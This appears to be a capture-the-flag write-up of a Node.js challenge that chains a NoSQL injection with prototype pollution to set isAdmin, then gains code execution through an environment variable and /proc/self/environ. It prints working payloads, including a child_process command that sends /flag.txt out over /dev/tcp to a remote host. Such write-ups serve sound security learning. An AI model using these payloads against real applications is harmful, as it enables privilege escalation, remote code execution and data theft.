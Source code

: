 ```js
        }
        else res.redirect(302,"/login");
}
catch(err){
        console.log(err);
}
});
```

We can easily notice the NoSQL injection in ```  var query=JSON.parse(`{"$set":{"username":"${req.body.username}","anime":"${req.body.anime}"}}`); ``` and prototype pollution here :

```
 var newUser={};
var attrs=Object.keys(result.value);
attrs.forEach((key)=>{
 newUser[key.trim()]=result.value[key];
if(key.trim()==="isAdmin"){
newUser["isAdmin"]=0;
  }
});
```

Our goal is to set isAdmin to 1, the prototype pollution vulnerable part is parsing the result json object of NoSQL query, so if we chain the NoSQL injection with prototype
pollution we will have the possibility to set isAdmin to 1, we can achieve this by injecting the following in anime field:

> brrr","   __proto__" : {"isAdmin":1}, "aaaa":"aaa

W don't have to forget the whitespace before ```__proto__``` because mongo doesn't accept it by default but we can notice the usage of trim() so adding some whitespace will do the trick.

Now we have admin access:

![ADMIN](https://imgur.com/kGcC3xI.png)

In the admin panel we have the possibility to set an environment variable and run a js script, the intended idea is to set ``` NODE_VERSION ``` env variable to some js code followed by // and then execute /proc/self/environ.
The content of /proc/self/environ will be interpreted as Js code ( we chose NODE_VERSION because it's the first env var, we knew it by connecting to the node docker image and checking its environment variables).

Final payload:

```
envname: NODE_VERSION

env: process.mainModule.require('child_process').exec("bash -c \" cat /flag.txt > /dev/tcp/IP/PORT\""); //

path: /proc/self/environ

```
